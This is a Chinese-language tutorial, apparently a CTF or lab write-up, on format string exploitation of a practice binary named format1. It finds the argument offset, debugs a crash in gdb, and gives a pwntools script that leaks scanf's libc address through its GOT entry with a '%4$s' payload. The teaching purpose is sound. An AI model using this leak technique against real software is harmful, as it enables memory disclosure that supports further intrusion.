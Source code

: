![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72JxHH0IlS5TgsN9vReaMcAzpCV4YOcRXAKOiaibBdk1I4G9OK9rhqby0Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib724qdjicPKqebyTUVVYBkNk1t0boOQZB9Qfo7n8em8YLtFwQksIqE1GjQ/640?wx_fmt=png&from=appmsg "")  
  
分析一下  
  
T--0x54  
  
i--0x69  
  
由0x54545454和0x69696969的位置我们可以得出，格式化字符串的起始地址恰好为输出函数的第5个参数，但是是格式化字符串的第4个参数。让我们来测试一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib721GIOcpRP0sp3Cpz8U1oiaKZxDrehkt4MfkSjWEumec3IH5GHXCffeXQ/640?wx_fmt=png&from=appmsg "")  
  
程序崩溃了，让我们调试一下  
```
gdb ./format1
b printf
r
%4$s

```  
  
调试结果如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72yNDZVG5100gkyNiadYbFdLT7Lt9xZNZ5CiaQWGvxztr9iabiaEbghc5Bbw/640?wx_fmt=png&from=appmsg "")  
  
首先查看0xffffd3e0里的内容发现里面为0x73243425，再使用vmmap分析一下发现，程序没有相应的访问权限，我们再使用x/x验证一下，发现确实没有相应的访问权限。  
  
那如果设置的是一个可访问的地址，比如scanf@got，我们就可以获取到scanf对应的地址了。  
  
首先获取一下scanf@got的地址  
```
gdb ./format1
b printf
r
%4$s
got

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72f7ovBYoZPPHo87icgmBKHY9WF3ahdSLTgIt4Vptywju2hBCBicOqW6yg/640?wx_fmt=png&from=appmsg "")  
  
这里得到scanf@got的地址为0x804c014  
  
利用pwntools构造payload  
```
from pwn import *
sh = process('./format1')
leakmemory = ELF('./format1')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print(hex(__isoc99_scanf_got))
payload = p32(__isoc99_scanf_got) + b'%4$s'
print(payload)
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil(b'%4$s\n')
print(hex(u32(sh.recv()[4:8])))

```  
>   
> Tips：这里应该会有师傅会问，为什么不能直接用命令行输入相应的地址，这是因为scanf函数并不会将其识别为对应的字符串，而是会将\,x,0,c分别作为一个字符进行读入，所以这里是通过脚本将地址输入，而并不是通过直接输入字符的方法。  
  